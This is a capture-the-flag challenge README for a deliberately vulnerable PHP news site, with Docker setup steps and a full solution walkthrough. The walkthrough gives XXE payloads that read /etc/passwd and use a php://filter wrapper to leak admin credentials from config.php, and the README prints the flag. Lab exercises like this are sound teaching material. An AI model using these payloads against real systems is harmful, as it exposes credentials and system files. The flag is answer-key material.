

# Le Canard du Lac - Web Challenge

**Author:** Bimo99B9 (Daniel López Gala)
**Category:** Web
**Difficulty:** Medium

---

## Description

"Le Canard du Lac" is a news website supposedly run by a collective of hackers and journalists from the shores of Lake Leman. They publish theories and articles about cybersecurity and local Swiss culture.

They recently opened a "Partner RSS Validator" to allow other local news outlets to syndicate their content. However, their XML parser might be a bit too trusting...

### Screenshots

*Home Page:*


*RSS Validator:*


*Admin Area:*


---

## Vulnerabilities

The challenge involves an **XML External Entity (XXE)** vulnerability leading to **Information Disclosure**.

1.  **XXE in RSS Validator**: The `rss.php` page parses user-submitted XML using `DOMDocument` with `LIBXML_NOENT` enabled. This allows an attacker to define external entities and have the parser substitute them.
2.  **Config Leak**: By exploiting the XXE, an attacker can read local files. However, direct file reading might be limited or the goal is to find credentials. The `config.php` file contains the admin credentials.
3.  **PHP Wrapper Bypass**: To read the `config.php` file (which is a PHP file and would otherwise be executed/parsed as empty text), the attacker must use the `php://filter` wrapper to base64 encode the file content before it is returned.
4.  **Admin Login**: Using the leaked credentials, the attacker can log in to `admin.php` and retrieve the flag.

---

## How to Play

### Prerequisites

-   Docker
-   Docker Compose

### Setup

1.  **Clone the repository:**
    ```bash
    git clone https://github.com/Bimo99B9/LakeCTF-Challenge
    cd LakeCTF-Challenge
    ```

2.  **Build and run the container:**
    The `docker-compose.yml` file is configured to build and run the web application. The flag from the `.env` file will be passed as a build argument.

    ```bash
    docker-compose up --build -d
    ```

3.  **Access the challenge:**
    The web application will be available at `http://localhost:8085`.

---

## Solution

1.  **Identify the XXE**:
    -   Navigate to `http://localhost:8085/rss.php`.
    -   Submit a basic XML payload to verify it parses input.
    -   Try to define an entity: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><rss><channel><title>&xxe;</title></channel></rss>`.
    -   Observe the content of `/etc/passwd` in the "Title" field.

2.  **Locate the Config**:
    -   The application structure suggests a `config.php` or similar might exist.
    -   Try to read `config.php` directly: `<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">`.
    -   This returns nothing because `config.php` is executed by the server, not printed as text.

3.  **Bypass with PHP Filter**:
    -   Use the `php://filter` wrapper to encode the file content. You need to construct a valid XML with the entity definition:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=config.php">
]>
<rss version="2.0">
    <channel>
        <title>&xxe;</title>
        <description>Le Canard Feed</description>
    </channel>
</rss>
```
    -   The server will return the Base64 encoded content of `config.php` inside the title tag.

4.  **Decode and Login**:
    -   Decode the Base64 string to reveal the source code of `config.php`.
    -   Find the `$ADMIN_USERNAME` and `$ADMIN_PASSWORD`.
    -   Go to `http://localhost:8085/admin.php` and log in.
    -   The flag is displayed on the dashboard.

---

### Flag

The flag is in the format `flag{...}` and is located at `/flag.txt` on the server.

**Flag:** `flag{lake_leman_mysteries_4b7c2e1f-ctf-challenge}`
